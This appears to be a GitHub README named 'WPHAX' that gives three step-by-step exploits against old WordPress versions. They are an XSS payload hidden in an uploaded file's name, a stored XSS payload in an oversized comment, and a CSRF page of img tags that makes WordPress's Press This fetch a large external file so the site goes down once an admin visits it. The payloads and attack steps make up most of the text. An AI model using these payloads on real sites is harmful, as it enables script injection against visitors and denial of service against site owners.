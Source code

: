 # WPHAX 

## **Exploit 1**
WP Version used: **3.8**

**Description:**
"Upload media" section can be hacked with **XSS**.

**Steps:**

* Go to **Upload Media** menu.

* Upload a file which is more than **20MB** with `"file<img src=x onerror=alert("hacked")>.png"` name.
![Upload Media](https://i.imgur.com/Ad0wZIt.png)

* Done
![XSS](https://i.imgur.com/aRp2L62.png)

***

## **Exploit 2**
WP Version used: **4.2**

**Description:**
Stored **XSS** can be executed with malicious comment.

**Steps:**

* Leave a comment (with a string bigger than 64KB): `<a title='x onmouseover=alert(unescape(/hello%20world/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px  AA... AA'></a>`
![Leave the comment](https://i.imgur.com/VVD3ZqO.png)

* View the comment on the page
![View as admin](https://i.imgur.com/wwVBiiG.png)

* Done
![View as admin](https://i.imgur.com/0HTXTUk.png)

***

## **Exploit 3**
WP Version used: **4.2**

**Description:**
DOS via CSRF

**Steps:**
* Create a website with following code and point it as index.html: 

```
<img src='http://<wpdistillery.vm>/wp-admin/press-this.php?u=http%3A%2F%2F<external
server>%2Ffoo.txt&url-scan-submit=Scan&a=b'>
<img src='http://<wpdistillery.vm>/wp-admin/press-this.php?u=http%3A%2F%2F<external
server>%2Ffoo.txt&url-scan-submit=Scan&a=c'>
<img src='http://<wpdistillery.vm>/wp-admin/press-this.php?u=http%3A%2F%2F<external
server>%2Ffoo.txt&url-scan-submit=Scan&a=d'>
<img src='http://<wpdistillery.vm>/wp-admin/press-this.php?u=http%3A%2F%2F<external
server>%2Ffoo.txt&url-scan-submit=Scan&a=e'>
<img src='http://<wpdistillery.vm>/wp-admin/press-this.php?u=http%3A%2F%2F<external
server>%2Ffoo.txt&url-scan-submit=Scan&a=f'>
<img src='http://<wpdistillery.vm>/wp-admin/press-this.php?u=http%3A%2F%2F<external
server>%2Ffoo.txt&url-scan-submit=Scan&a=g'>
[...]
```
![View as admin](https://i.imgur.com/G5mjgtj.png)
* Create a lage file foo.txt (more than 50MB)

* Send a link to your website to the admin of wpdistillery

* As soon as he enters the link the website will be down
